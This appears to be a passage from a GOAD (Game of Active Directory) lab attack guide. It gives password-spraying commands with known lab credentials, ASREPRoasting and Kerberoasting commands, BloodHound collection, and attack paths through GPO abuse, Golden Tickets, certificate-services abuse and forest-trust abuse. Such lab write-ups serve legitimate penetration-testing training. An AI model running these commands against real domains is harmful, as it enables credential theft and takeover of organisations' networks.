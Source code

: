 ### **Password Spraying**

```bash
# Common GOAD passwords
crackmapexec smb 192.168.20.0/24 -u users.txt -p 'hodor' --continue-on-success
crackmapexec smb 192.168.20.0/24 -u users.txt -p 'Winter2019' --continue-on-success
# Known working: hodor:hodor, rickon.stark:Winter2019

```

### **Kerberos Attacks**

```bash
# ASREPRoasting (brandon.stark, missandei)
GetNPUsers.py north.sevenkingdoms.local/ -dc-ip 192.168.20.11 -usersfile users.txt -no-pass

# Kerberoasting (jon.snow, sql_svc)
GetUserSPNs.py north.sevenkingdoms.local/hodor:hodor -dc-ip 192.168.20.11 -outputfile kerberoast.txt

```

---

## 🎯 **GOAD-Specific Attack Scenarios**

### **🏆 Attack Path 1: "Winter is Coming" - The North Takeover**

**Success Rate: 95% | Difficulty: Beginner**

1. **Initial Access**: Password spray → `hodor:hodor`
2. **Enumeration**: BloodHound collection → identify `samwell.tarly` GPO rights
3. **Privilege Escalation**: GPO abuse via STARKWALLPAPER policy
4. **Lateral Movement**: Access CASTELBLACK via elevated privileges
5. **Persistence**: Golden Ticket with NORTH domain KRBTGT

```bash
# Step-by-step execution
crackmapexec smb 192.168.20.11 -u hodor -p hodor
bloodhound-python -u hodor -p hodor -d north.sevenkingdoms.local -dc 192.168.20.11 -c All
# Use BloodHound to find: samwell.tarly → Write DACL → STARKWALLPAPER GPO

```

### **🔥 Attack Path 2: "Fire and Blood" - Cross-Forest Conquest**

**Success Rate: 75% | Difficulty: Advanced**

1. **Cross-Domain Discovery**: Map trust relationships SEVENKINGDOMS ↔ ESSOS
2. **Service Account Compromise**: Target `ESSOS\\sql_svc` (active on BRAAVOS)
3. **Certificate Services Abuse**: ESC1/ESC2 via CertEnroll share
4. **Forest Trust Abuse**: AcrossTheSea group manipulation
5. **Total Forest Compromise**: Both forests under control
